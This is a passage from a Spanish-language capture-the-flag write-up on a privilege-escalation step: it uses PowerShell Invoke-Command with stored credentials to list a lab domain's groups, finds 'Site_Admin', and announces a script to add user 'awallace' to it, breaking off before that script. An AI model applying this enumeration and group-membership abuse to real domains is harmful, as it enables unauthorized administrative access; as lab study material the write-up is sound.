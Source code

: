 # Privilege Escalation
En el documento word del principio, encontrabamos lo siguiente.

![Write-up Image](images/Screenshot_16.png)

> **Lois is the only authorized personnel to change Group Membership, Contact Lois to have this approved and changed if required. Only Lois can become site admin. **

Entonces el usuario `Lois` que es el mismo que está ejecutando el script que hemos encontrado cada 5 minutos, puede agregar a los usuarios a un grupo para convertirse en "site admin", vamos a investigar a que grupo puede que añada a los usuarios.

Vemos un grupo llamado `Site_Admin`, blanco y en botella leche.
```console
PS C:\uTILS> Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {net group /domain}               Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {net group /domain}

Group Accounts for \\

-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*Key Admins
*Managers
*Protected Users
*Read-only Domain Controllers
*Schema Admins
*Site_Admin
The command completed with one or more errors.
```

Vamos a crear un script para añadir al usuario `awallace` a este grupo.
